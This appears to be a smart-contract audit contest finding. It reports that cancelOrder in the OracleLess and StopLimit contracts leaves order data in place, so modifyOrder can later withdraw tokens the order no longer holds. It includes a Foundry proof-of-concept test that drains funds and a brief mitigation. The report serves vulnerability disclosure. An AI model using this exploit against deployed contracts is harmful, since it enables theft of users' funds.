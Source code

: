 Mean Brown Barbel

High

# CancelOrder doesn't update the orders mapping which will cause drain of contract funds

### Summary

A critical vulnerability exists in the OracleLess, StopLimit contracts where users can steal funds by exploiting incomplete state cleanup after order cancellation. The `cancelOrder()` function fails to properly invalidate the order in the `orders` mapping, allowing cancelled orders to still be modified via `modifyOrder()`, resulting in unauthorized token withdrawals.

### Root Cause


The vulnerability arises from inadequate state management in the order cancellation process. The cancelOrder() function does not properly update the orders mapping, leaving stale order data. This incomplete cleanup allows the modifyOrder() function to operate on canceled orders, as it only checks the orders mapping, which still retains the canceled order's data.

Attack Scenario:
1. Alice creates an order by calling createOrder(), which transfers the required balance to the contract.
2. She cancels the order by calling cancelOrder(). This returns the transferred assets to Alice and removes her orderId from pendingOrderIDs.
3. However, since the orders[orderId] entry is not cleared during cancelOrder(), malicious actors can exploit this by using modifyOrder() to alter the order. For example, decreasing the order position would transfer assets to Alice.

The same attack vector is applicable after the execution of orders. A user can still modify the orders even after they have been executed. This issue can lead to unauthorized asset transfers .

### Impact
A Attacker can run away with whatever tokens present in the contract 
https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L80
### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/automatedTrigger/OracleLess.sol";
import "../src/automatedTrigger/IAutomation.sol";
import "../src/automatedTrigger/AutomationMaster.sol";
import "../src/automatedTrigger/StopLimit.sol";
import "../src/interfaces/uniswapV3/IPermit2.sol";
import {MockERC20} from "./mocks/MockERC20.sol";
import {IPythRelay} from "../src/oracle/IPythRelay.sol";
import {MockPythRelay} from "./mocks/MockPythRelay.sol";



contract SherlockContestTest is Test {
    OracleLess public oracleLess;
    AutomationMaster public automationMaster;
    IPermit2 public permit2;
    StopLimit public stopLimit;
    // Test tokens
    MockERC20 public mockTokenIn;
    MockERC20 public mockTokenOut;
    MockPythRelay public mockOracleIn;
    MockPythRelay public mockOracleOut;

    // Test accounts
    address public owner;
    MaliciousTarget public maliciousTarget;

    function setUp() public {
        // Set up accounts
        owner = address(this);

        // Deploy dependencies
        automationMaster = new AutomationMaster();
        permit2 = IPermit2(deployPermit2()); // You'll need to implement this or use a mock

        // Deploy main contract
        oracleLess = new OracleLess(automationMaster, permit2);
        stopLimit = new StopLimit(automationMaster, IBracket(address(0)), permit2);

        // Deploy test tokens
        mockTokenIn = new MockERC20("Token A", "TKNA", 18);
        mockTokenOut = new MockERC20("Token B", "TKNB", 18);


        mockOracleIn = new MockPythRelay();
        mockOracleOut = new MockPythRelay();

        // Setup oracles in AutomationMaster
        IERC20[] memory tokens = new IERC20[](1);
        tokens[0] = IERC20(address(mockTokenIn));
        IPythRelay[] memory relays = new IPythRelay[](1);
        relays[0] = IPythRelay(address(mockOracleIn));
        automationMaster.registerOracle(tokens, relays);

        // Do the same for mockTokenOut
        tokens[0] = IERC20(address(mockTokenOut));
        relays[0] = IPythRelay(address(mockOracleOut));
        automationMaster.registerOracle(tokens, relays);

        automationMaster.setMaxPendingOrders(10);

        automationMaster.setMinOrderSize(1);
    }

    function deployPermit2() internal returns (address) {
        // You can either:
        // 1. Deploy a mock Permit2
        // 2. Fork mainnet and use the real Permit2 address
        // 3. Deploy the actual Permit2 contract
        // For this example, let's assume we're using a mock
        return address(0x1); // Replace with actual deployment
    }
    function testCancelAndDecreaseFundsExploitOracleLess() public {
        // Setup initial balances
        mockTokenIn.mint(address(oracleLess), 1000e18);
        uint256 initialContractBalance = mockTokenIn.balanceOf(address(oracleLess));
        uint256 initialAmount = 1000e18;
        address alice = makeAddr("alice");
        mockTokenIn.mint(alice, initialAmount);

        vm.startPrank(alice);
        mockTokenIn.approve(address(oracleLess), type(uint256).max);

        // 1. Create order for Alice
        uint256 orderAmount = 100e18;
        uint96 aliceOrderId = oracleLess.createOrder(
            IERC20(address(mockTokenIn)),
            IERC20(address(mockTokenOut)),
            orderAmount,
            95e18, // minAmountOut
            alice,
            0, // feeBips
            false, // permit
            "" // permitPayload
        );

        // Assert initial states
        assertEq(mockTokenIn.balanceOf(address(oracleLess)), orderAmount + initialContractBalance);
        assertEq(mockTokenIn.balanceOf(alice), initialAmount - orderAmount);
        assertEq(oracleLess.pendingOrderIds(0), aliceOrderId);

        // 2. Alice cancels her order
        oracleLess.cancelOrder(aliceOrderId);

        // Assert states after cancellation
        assertEq(mockTokenIn.balanceOf(address(oracleLess)), initialContractBalance);
        assertEq(mockTokenIn.balanceOf(alice), initialAmount);

        // 3. Alice attempts to exploit by decreasing position on cancelled order
        oracleLess.modifyOrder(
            aliceOrderId,
            IERC20(address(mockTokenOut)),
            50e18, // amount to decrease
            90e18, // new minAmountOut
            alice,
            false, // increasePosition (decrease in this case)
            false, // permit
            "" // permitPayload
        );

        // 4. Assert final states showing the exploit attempt
        assertEq(
            mockTokenIn.balanceOf(alice), initialAmount + 50e18, "Alice should not be able to get additional funds"
        );

        assertEq(mockTokenIn.balanceOf(address(oracleLess)), initialContractBalance - 50e18);

        vm.stopPrank();
    }

}
```

run `testCancelAndDecreaseFundsExploitOracleLess ` which shows that Alice can take assets from contract by creating and canceling orders

### Mitigation

Check the order activity status before modifying it